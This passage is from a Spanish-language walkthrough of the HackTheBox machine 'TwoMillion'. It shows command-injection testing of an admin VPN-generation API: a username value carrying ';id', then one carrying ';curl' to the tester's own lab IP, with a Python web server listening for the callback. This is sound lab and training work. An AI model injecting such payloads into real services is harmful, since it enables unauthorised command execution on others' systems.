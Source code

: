 ![](../assets/img/HTB/Machines/TwoMillion/TwoMillion-18.png)

Conseguimos realizar la petición correctamente y nos genera el fichero de `openvpn`, aun así intentaremos ver si podemos realizar algún tipo de ataque a este endpoint, por lo que probaremos a inyectar algún comando de alguna forma, empezaremos añadiendo un `;id` para ver si cambia algo en la respuesta:

```
POST /api/v1/admin/vpn/generate HTTP/1.1
...
Content-Type: application/json
...
{
	"username":"test;id"
}
```

![](../assets/img/HTB/Machines/TwoMillion/TwoMillion-19.png)

Parece que ahora no nos devuelve nada, por lo que no sabemos si se ha llegado a ejecutar el comando. Podemos intentar a levantar un servidor web con `Python` e inyectar un `curl` hacia nuestra máquina para ver si vemos alguna petición:

```bash
python -m http.server 80
```

```
POST /api/v1/admin/vpn/generate HTTP/1.1
...
Content-Type: application/json
...
{
	"username":"test;curl http://10.10.14.141"
}
```
